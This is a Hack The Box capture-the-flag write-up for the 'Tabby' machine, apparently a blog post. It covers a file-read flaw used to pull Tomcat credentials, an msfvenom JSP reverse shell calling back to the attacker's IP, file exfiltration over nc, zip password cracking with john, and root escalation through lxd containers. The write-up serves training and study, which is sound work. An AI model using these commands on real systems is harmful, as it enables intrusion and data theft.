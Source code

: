 ```yaml
---
layout: single
title: "Hack The Box Write-up #5 : Tabby"
excerpt: "Writeup for Tabby, a machine provided by HacktheBox."
date: 2020-11-08
toc: true
toc_sticky: true
header:
  tagline: "Writeup for Tabby , a machine provided by HacktheBox."
  overlay_image: /assets/images/background.jpg
  overlay_filter: 0.5
  actions:
    - label: "Learn More"
      url: "https://www.hackthebox.eu/home/machines/profile/259"
  teaser: /assets/images/blunder-writeup/tabby.png
  teaser_home_page: true
  
categories:
  - hackthebox
tags:  
  - linux
  - cve
  - tomcat
---
```



## Enumeration

### nmap
As always we start by doing a nmap scan against the host (10.10.10.194) :

```sh
root@kali:/home/pi0x73# nmap -sC -sV -T4 10.10.10.194
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 14:50 CET
Nmap scan report for 10.10.10.194
Host is up (0.087s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.44 seconds
```

Some interesting information can be collected through the nmap scan where we see **Tomcat Apache** running on port 8080 , a web page on port 80 and a domain (megahosting.htb).

First thing, I am going to add the domain to the hosts file and procced through the web page.

We can do so by adding **megahosting.htb** under ip : 10.10.10.194 on **/etc/hosts** file on a new line.

### web

Procceding through the webpage, we are represented with a hosting platform service :

![web](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tabby-web.png)

Nothing much interesting till here , but after I while clicking around I saw an interesting piece of code in the page source : 

```html
<li><a href="#pricing">Infrastructure</a></li>
<li><a href="http://megahosting.htb/news.php?file=statement">News</a></li>
<li><a href="#about">About</a></li>
<li><a href="#callus">Support</a></li>
```

### file read

It seems like all of the buttons redirect to nowhere but news button has an interesting link attached. 
A php pagethat calls files from systemand shows them on the webpage so I though it was possible that we could achieve File Read from the remote host.

![lfi](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lfi.png)

Obviously the File Read injection was successfuland I am able to read files from the system through the vulnerability. 

This could be a lot useful at the moment since we also noticed apache tomcat running on port 8080 , so I started looking around for the tomcat-users.xml file which holds the credentials configured for the administration panel.

To make the searching easier I installed **tomcat9** on my attacker machine to see where it saves the config files.

![tomcat9](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat9.png)

Using those definitive paths I could try to retrieve the config file from the remote system and see if there is any information inside it :

```xml
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>

   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

I was able to grab and read the file from the host and we can easily see the credentials for tomcat running on 8080.

However while trying to connect with the given credentials on http://10.10.10.194:8080/manager I noticed that the I could not access the GUI panel, so I started googling about possible other ways.

After some time I came up with an interesting pip module : **tomcat-manager** which could help me use the panel through CLI .

![tomcatmgr](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcatmgr.png)

I found this module very helpful because not only I was able to connect to the tomcat manager service but I could also upload files through it.

### tomcat shell

So quickly create a payload using msfvenom and drop it to the web service using *tomcatmanager* :

```console
root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.30 LPORT=9001 -f war > shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

root@kali:~# tomcat-manager
tomcat-manager> connect http://10.10.10.194:8080/manager tomcat "$3cureP4s5w0rd123!"
--connected to http://10.10.10.194:8080/manager as tomcat
tomcat-manager> deploy local shell.war /zdf
tomcat-manager>
```
With the payload already uploaded to the web server , what's left to do is to navigate on ``http://10.10.10.194:8080/zdf`` in my case to triger the payload and recieve a reverse shell to my machine : 

![tomcat-shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat-shell.png)

## Leveraging User

Upon enumerating inside the box I saw something interesting under **/var/www/html/files** : 

![backups](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/backups.png)

I copied this zip backup to my machine to view it contents :

```console
VICTIM MACHINE :

tomcat@tabby:/var/www/html/files$ nc 10.10.15.30 9002 < *.zip

ATTACKER MACHINE :

root@kali:~# nc -lvp 9002 > *.zip
Listening on 0.0.0.0 9002
Connection received on megahosting.htb 35208
```

However I wasnt able to view anything because the zip backup was password protected. In order to unlock it I used **zip2john** to convert the archive into a crackable hash and then give it to john to crack.

```sh
root@kali:~# zip2john backup.zip
backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:backup.zip
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
root@kali:~# nano backupfile.hash
root@kali:~# john backupfile.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)
1g 0:00:00:01 DONE (2020-11-08 15:49) 0.6849g/s 7097Kp/s 7097Kc/s 7097KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~# 

```

There was nothing useful inside the zip backup but I noticed that user **ash** uses the same password as zip :

![sudo](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/sudo.png)

## Privesc to root

Now as seen above , while using ``id`` command , it pulls out interesting information where ``ash`` is a memeber of **lxd** group.
Members from this group can create and start containers to the machine.

To sumarize that I am able to create a container , start it and then mount the machine filesystem to it.

To do that I downloaded **alpine** image to the machine which is preconfigured and initialized it :

![lxd](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lxd.png)

This way I can now exeucute ``/bin/bash`` to the container and navigate to the filesystem to read the flag :

```sh
ash@tabby:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # wc -c root.txt
wc -c root.txt
33 root.txt
```
